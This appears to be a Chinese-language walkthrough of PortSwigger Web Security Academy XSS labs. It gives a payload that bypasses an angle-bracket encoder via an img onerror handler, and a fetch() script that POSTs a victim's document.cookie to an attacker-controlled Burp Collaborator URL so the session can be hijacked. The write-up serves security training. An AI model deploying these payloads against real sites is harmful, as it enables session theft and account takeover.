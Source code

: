 > 为了防止[XSS](https://portswigger.net/web-security/cross-site-scripting)，该网站使用JavaScript`replace()`函数对尖括号进行编码。但是，当第一个参数是字符串时，该函数仅替换第一个匹配项。

payload：`<><img src="ss.ss" onerror=alert(1)>`

#### 25. Exploiting cross-site scripting to steal cookies

这个题目在评论区是有一个非常明显的XSS漏洞的。

题目要求：

> A simulated victim user views all comments after they are **posted**. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.
>
> **NOTE:**
>
> To prevent the Academy platform being used to attack third parties, our firewall blocks interactions between the labs and arbitrary external systems. To solve the lab, you should use Burp Collaborator's default public server (`burpcollaborator.net`).

也就是说这道题是要利用这个漏洞，将浏览评论的人的cookie用POST发送到自己的`burpcollaborator.net`上面来。

使用`fetch`函数很方便。

直接构造payload：

```
<script>
	fetch('https://url', { 
	method: 'POST',
	body: document.cookie
	});
</script>
```

其中url就是`urpcollaborator.net`的地址。

![25.1](xss-burp.assets/25.1.png)

这个时候已经可以收到发送来的东西了，但是不给过。

然后对比官方给的payload：

发现我少了一个`mode: 'no-cors',`。(但是我用官方的payload也不给过。)

> `no-cors` — 保证请求对应的 method 只有 `HEAD`，`GET` 或 `POST` 方法，并且请求的 headers 只能有简单请求头 (simple headers)。如果 ServiceWorker 劫持了此类请求，除了simple header之外，不能添加或修改其他 header。另外 JavaScript 不会读取 Response 的任何属性。这样将会确保 ServiceWorker 不会影响 Web 语义(semantics of the Web)，同时保证了在跨域时不会发生安全和隐私泄露的问题。
